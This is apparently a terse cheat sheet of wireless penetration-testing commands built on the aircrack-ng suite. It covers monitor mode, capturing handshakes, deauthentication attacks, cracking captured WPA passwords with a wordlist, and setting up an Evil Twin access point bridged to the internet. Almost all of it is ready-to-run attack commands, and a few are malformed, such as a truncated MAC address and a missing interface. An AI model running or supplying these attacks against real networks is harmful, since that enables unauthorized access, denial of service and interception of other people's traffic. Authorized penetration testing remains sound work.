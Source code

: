 # Wireless Penetration Testing

Check for conflicting processes

```
airmon-ng check kill
```

Place card into monitor mode

```
airmon-ng start wlan1
```

Find available devices

```
airodump-ng wlan1mon
```

Start capturing information
(channel 6)

```
airmon-ng -c 6 --bssid MAC -w capture wlan0mon

airodump-ng wlan1mon -w CAPTUREFILENAME -c 1

airodump-ng wlan1mon --bssid MAC --channel 1
```

Deauth attack

```
aireplay-ng -0 1 -a MAC_AP -c MAC_CLIENT

aireplay-ng --deauth 0 -c CLIENT -a MAC_AP wlan1mon
```

Crack password

```
aircrack-ng anynamehere-01.cap

aircrack-ng capture--1.cap -w rockyou.txt
```

### Or just use wifite

## Evil Twin Attack

```
airmon-ng start wlan1
airodump-ng wlan1mon

Create a New AP with Same SSID & MAC Address
airbase-ng -a 00:09:5B:6F:64:1E --essid "Elroy" -c 11 wlan0

Deauthentication
aireplay-ng --deauth 0 -a 00:09:5B:6F:1E


Turn up the power
iwconfig wlan1 txpower 27
```

### Give the fake AP internet access

```
brctl addbr evil

brctl addif evil x0
This has internet access

brctl addif evil at0
This is create by airbase-ng (wired face of the wireless access point)

ifconfig x0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig evil up
dhclient3 evil &
```
